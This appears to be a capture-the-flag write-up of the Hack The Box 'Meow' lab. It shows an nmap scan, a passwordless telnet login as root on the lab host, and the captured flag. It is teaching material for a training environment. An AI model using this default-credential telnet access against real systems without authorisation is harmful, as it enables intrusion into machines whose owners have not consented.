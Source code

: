 ```yaml
---
title: "Hack The Box - Meow"
date: 2022-10-10T00:26:33+05:30
draft: false
description: " Meow from HackTheBox is an retired machine which is vulnerable to Telnet and security Misconfiguration, which can be easily exploited with help of Basic Recon "
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- Telnet
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/meow/Meow1.png 
---
```

Hi Hackers Welcome Back, Today we are going to look at Hack The Box Meow Machine.

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Meow</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 23 ware open. while trying to connect with default or well known usernames. Telnet ware get logged in without using password.

## Mind Map 
{{< img src="/images/hackthebox/meow/mm.png" alt="image alt" width="1000px"  position="center" >}}

## Recon 
Lets start with Initial scan.

```bash 
atom@atom-VirtualBox:~/htb/meow$ sudo nmap -sC -sV -O 10.129.144.166 -oN initial.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 01:16 IST
Nmap scan report for 10.129.144.166
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/10%OT=23%CT=1%CU=30227%PV=Y%DS=2%DC=I%G=Y%TM=634325
OS:3C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:101%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%
OS:O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2
OS:=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.80 seconds
atom@atom-VirtualBox:~/htb/meow
```
Lets we try to connect Telnet port 23 using some well-known default usernames and password like ubuntu, administrator,user,root ... 

```bash
atom@atom-VirtualBox:~$ telnet 10.129.143.226 23
Trying 10.129.143.226...
Connected to 10.129.143.226.
Escape character is '^]'.
root

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 09 Oct 2022 04:55:58 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.143.226
  IPv6 address for eth0: dead:beef::250:56ff:fe96:1afd

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```
we successfully get logged in. let's dig for a flag 

```bash 
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# whoami
root
root@Meow:~# 

```